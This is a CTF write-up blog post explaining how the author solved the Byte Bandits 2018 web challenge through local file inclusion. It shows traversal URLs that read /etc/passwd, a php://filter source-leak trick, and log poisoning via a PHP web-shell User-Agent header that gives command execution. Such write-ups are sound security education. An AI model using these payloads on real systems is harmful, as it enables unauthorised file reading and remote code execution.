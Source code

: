 ```yaml
---
title: Byte Bandits CTF 2018 - R3M3MB3R
author: Crisis
categories:
  - hacking
---
```

I also participated in the Byte Bandits CTF this weekend. This web challenge encountered somes issues and was modified a
few times from what I saw, so other people might have not done it the way I have. But anyway, here's how I did it.

The vulnerability was a local file inclusion (LFI). It was easy to find: if you visited `http://web.euristica.in/R3M3MB3R/index.php?f=../../../etc/passwd`, you would get the passwd file. The tricky thing was that `index.php` was filtered in the URL, so it was not possible to directly include it. Some PHP wrappers were activated on the server, so I managed to download the `eg.php` file that way ([http://web.euristica.in/R3M3MB3R/index.php?f=php://filter/read=convert.base64-encode/resource=eg.php](http://web.euristica.in/R3M3MB3R/index.php?f=php://filter/read=convert.base64-encode/resource=eg.php)), but nothing interesting was in it, and because of the filter you couldn't retrieve the index like this.
After some time spent trying, and failing, to bypass that filter, I decided to try something else. My next idea was to include some log files from the server, in which I could inject some PHP code that would be executed when included. I've recently [read a bit on the subject](http://ly0n.me/2015/10/19/lfi-beyond-procselfenviron/), and I found several files:

```
http://web.euristica.in/R3M3MB3R/index.php?f=../../../var/log/apache2/access.log
http://web.euristica.in/R3M3MB3R/index.php?f=../../../proc/self/fd/2
http://web.euristica.in/R3M3MB3R/index.php?f=../../../proc/self/fd/7
```

PHP code could be injected in each of these logs files using different ways, but to get the flag I used `access.log`. They had a few issues with that file during the CTF. It was removed at some point, then was blocked, then was cleared every 30 seconds or so, and that's how it stayed until the end I believe.
I injected PHP in the page by modifying my `User-Agent` header with Burp:

```php
User-Agent: <?php echo shell_exec($_REQUEST['cmd']); ?>
```

A simple `ls` revealed where the flag was:
![phpinfo](/medias/bytesbandit18/cat.png)

And you could then directly access it:

```json
http://web.euristica.in/R3M3MB3R/S3cR3T_FL4G.txt
flag{S0metim3s_it5_b3tter_to_4_GET}
```

They changed the file's name later on, and it became `S3cR3T_FL4G_da456sds.txt`. Not sure why, and it might have changed some more, but that's how it was called initially anyway.
With code execution, you could of course download `index.php` as well by doing `cat /var/www/html/index.php|base64`, but [there was nothing interesting in it](/medias/bytesbandit18/index.txt).